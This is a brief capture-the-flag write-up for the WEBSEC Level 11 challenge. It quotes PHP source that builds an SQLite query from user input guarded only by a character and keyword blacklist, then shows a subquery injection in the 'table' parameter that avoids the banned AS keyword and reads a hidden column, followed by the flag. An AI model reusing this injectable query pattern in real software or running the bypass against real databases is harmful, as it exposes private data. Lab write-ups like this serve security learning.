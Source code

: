 # WEBSEC Level 11


### Challenge description

It's not AS simple AS it looks

### Initial analysis
`$special1 = ["!", "\"", "#", "$", "%", "&", "'", "*", "+", "-"];
    $special2 = [".", "/", ":", ";", "<", "=", ">", "?", "@", "[", "\\", "]"];
    $special3 = ["^", "_", "`", "{", "|", "}"];
    $sql = ["union", "0", "join", "as"];
    $blacklist = array_merge ($special1, $special2, $special3, $sql);

if (isset ($_POST['submit']) && isset ($_POST['user_id']) && isset ($_POST['table'])) {
    $id = $_POST['user_id'];
    $table = $_POST['table'];

    sanitize($id, $table);

    $pdo = new SQLite3('database.db', SQLITE3_OPEN_READONLY);
    $query = 'SELECT id,username FROM ' . $table . ' WHERE id = ' . $id;
    //$query = 'SELECT id,username,enemy FROM ' . $table . ' WHERE id = ' . $id;

    $getUsers = $pdo->query($query);
    $users = $getUsers->fetchArray(SQLITE3_ASSOC);

    $userDetails = false;
    if ($users) {
        $userDetails = $users;
    $userDetails['table'] = htmlentities($table);
    }
}`

### Walk through

STEP 1: Intercept in burp

STEP 2: `user_id=2&table=costume&submit=Submit+Query`
OUTPUT: The hero number 2 in costume is Spiderman

STEP 3: `id=2&table=(select 2 id, enemy username from costume)&submit=Submit+Query`
OUTPUT: The hero number 2 in (select 2 id, enemy username from costume)


### Flag

**FLAG**: `WEBSEC{Who_needs_AS_anyway_when_you_have_sqlite}`

For further queries, please DM me on Twitter: <https://twitter.com/m0n574>.
